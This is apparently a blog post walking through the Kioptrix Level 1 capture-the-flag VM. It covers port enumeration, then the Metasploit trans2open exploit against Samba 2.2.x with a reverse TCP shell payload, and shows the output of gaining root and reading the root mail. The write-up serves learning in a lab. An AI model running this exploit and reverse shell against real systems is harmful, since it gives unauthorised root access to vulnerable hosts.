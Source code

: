 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1 Walkthrough"
date:   2023-12-19 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1 Walkthrough, CTF solution for Kioptrix Level 1.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 2.9p2 (protocol 1.99)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 1.3.20 ((Unix)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>RPC Bind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 139</code></p></pc>
           </td>
           <td>
              <pc><p>netbios-ssn</p></pc>
           </td>
           <td>
               <pc><p>Samba</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 1.3.20 ((Unix)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Samba Enumeration

Based on the age of the system other services, I know from exeperience that SAMBA is likely vulnerable to the trans2open exploit.


{% highlight bash %}


use exploit/linux/samba/trans2open

msf exploit(trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.221.156  yes       The target address
   RPORT  139              yes       The target port


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.221.139  yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


{% endhighlight %}


## Metasploit Exploit

{% highlight bash %}
msf exploit(trans2open) > run

[*] [2015.12.20-21:05:39] Started reverse handler on 192.168.221.139:4444
[*] [2015.12.20-21:05:40] Trying return address 0xbffffdfc...
[*] [2015.12.20-21:05:41] Trying return address 0xbffffcfc...
[*] [2015.12.20-21:05:42] Trying return address 0xbffffbfc...
[*] [2015.12.20-21:05:43] Trying return address 0xbffffafc...
[*] Command shell session 1 opened (192.168.221.139:4444 -> 192.168.221.156:1025) at 2015-12-20 21:05:44 -0500


^Z
Background session 1? [y/N]  N

id
uid=0(root) gid=0(root) groups=99(nobody)
hostname
kioptrix.level1
^Z
Background session 1? [y/N]  y
{% endhighlight %}


## Root Flag


Root Flag

{% highlight bash %}
sh-2.05# cd /var/spool/mail
cd /var/spool/mail
sh-2.05# ls
ls
harold
john
nfsnobody
root
sh-2.05# cat root   
cat root
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
    by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
    for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: O

If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
{% endhighlight %}
